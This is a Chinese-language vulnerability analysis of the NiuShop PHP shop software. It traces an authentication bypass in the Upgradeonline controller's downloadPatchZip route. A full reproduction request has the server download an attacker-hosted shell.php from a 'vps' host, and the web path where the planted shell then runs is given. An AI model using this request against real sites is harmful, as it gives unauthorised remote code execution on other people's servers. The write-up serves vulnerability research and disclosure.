





漏洞成因
错误继承Controller类导致，导致越权。可以任意从远程服务器下载文件读取内容，达到getshell目的。
漏洞分析
文件：data/extend/upgrade/Upgrade.php
doGet方法获取远程服务器文件内容,最后通过file_get_contents写入文件。且文件名是由远程服务器访问的文件名。(有个限制是文件内容需要大于500

全局搜索调用该方法可以访问的路由
定位：application/admin/controller/Upgradeonline.php
downloadPatchZip方法

该类继承于Contoller类。但是只有BaseController类才有身份认证操作
所以此处由于错误继承导致越权
类：BaseController

漏洞复现
远程文件内容

访问
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
| POST /niushop/index.php?s=/admin/Upgradeonline/downloadPatchZip HTTP/1.1
Host: 127.0.0.1:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=318b1639a90f68aa4e8dbacfbeaa4a90;XDEBUG_SESSION=PHPSTORM
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 56
download_url=http://vps/shell.php&version_no=1
|
1
| http://127.0.0.1:8888/niushop/download/upgrade/niushop_patch_1/shell.php
|
